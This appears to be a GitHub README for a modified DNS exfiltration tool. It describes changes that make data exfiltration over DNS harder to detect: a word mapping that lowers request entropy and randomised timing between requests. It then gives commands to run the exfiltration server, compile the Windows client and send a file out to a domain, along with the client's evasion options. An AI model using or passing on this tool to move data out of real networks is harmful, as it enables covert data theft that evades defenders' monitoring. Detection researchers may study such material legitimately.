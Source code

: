 # Modified DNSExfiltration tool

The original tool can be found here: https://github.com/Arno0x/DNSExfiltrator.<br>
In order to make the detection of exfiltrations harder the tool was modified in the following way:
- Entropy of the requests was decreased by using a mapping we introduced (Base32map) which maps each Base32 character to 3 characters long English word. English words were chosen in such a way which gives the same distribution of characters as in regular DNS requests. The following chart shows the entropy values for different sizes of DNS requests and Base32, Base64 and our Base32map encoding.


![Capture](https://user-images.githubusercontent.com/7517033/164089826-fee9fb0e-8d1b-40f0-ae67-fc45295659c6.PNG)

- Times between requests were randomised in order to make the statistical analysis of times harder for detection tools.

## Usage

Detailed description and the instructions for using the tool can be found in its original repository.
Commands needed for testing the tool are the following:

Run the server:
`dnsexfiltrator.py -d mydomain.com -p password`

Build client for Windows:
`.\csc.exe /t:exe /out:dns.exe .\dnsExfiltrator.cs /reference:System.IO.Compression.dll`

Run client:
`.\dns.exe .\transfer.txt mydomain.com password s=192.168.192.130 -b32 r=64 l=30`

Possible arguments for running the client:
- `s = ip` - DNS server identification (IP address)
- `t = n` - throttle time in ms (fixed part)
- `tr = n` - throttle time in ms (maximum value for random part)
- `r = n` - maximum size of the request (number of characters)
- `l = n` - maximum size of the label (number of characters)
- `-b32` - inicator to use base32
- `-map` - can be used only together with `-b32` - tells the tool to use the mapping in order to reduce entropy
